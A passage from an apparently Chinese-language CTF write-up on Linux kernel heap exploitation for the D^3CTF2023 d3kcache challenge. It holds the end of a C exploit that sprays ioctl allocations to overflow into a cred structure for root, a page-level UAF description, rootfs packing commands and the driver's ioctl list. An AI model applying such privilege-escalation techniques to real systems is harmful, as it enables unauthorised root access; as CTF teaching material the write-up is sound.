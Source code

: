 ```c
        read(pipe_parent_read[0],&result,sizeof(result));
    } 
    char object_buf[CHUNK_SIZE];
    *(uint32_t *)&object_buf[CHUNK_SIZE - 0x6] = 1;
    puts("Step 7: spray castaway_ioctl_add alloc one page to overflow to cred ");
   for(int i = 0; i < 0x100; i++){
        ioctl(fd, ALLOC, 0);
        struct request_dev req_dev = {.index = i, .size = CHUNK_SIZE, .buf = object_buf};
        ioctl(fd, EDIT, (unsigned long)&req_dev);

    }
    write(rootfd[1], object_buf, CHUNK_SIZE);
    sleep(10000);

} 

```

off by one + Page-level Heap Fengshui (Page level UAF)
======================================================

这种攻击手法主要指的是对内存页结构体 page 的释放后利用

D^3CTF2023 d3kcache
-------------------

root调试
------

> 感谢Nightu和flyyy师傅的帮助！！

发现虽然`rdinit=/sbin/init`，但可以改`/etc/init.d/rcS`来修改启动权限

ext4文件系统相关打包
------------

通过mount来挂载，然后赋值进去，然后卸载即可

```bash
if [ ! -d rootfs ]; then
    mkdir rootfs
fi

sudo mount rootfs.img rootfs

cp exp rootfs/
sudo umount rootfs
```

题目说明flag在/root/flag，ext4文件系统，对应init文件在`./etc/init.d/rcS`里

`d3kcache_ioctl`会根据ioctl命令执行不同的操作：

a. 命令276（创建新缓存）：  
b. 命令1300（向现有缓存追加数据）：  
c. 命令2064（释放缓存）：  
d. 命令6425（从缓存读取数据）：

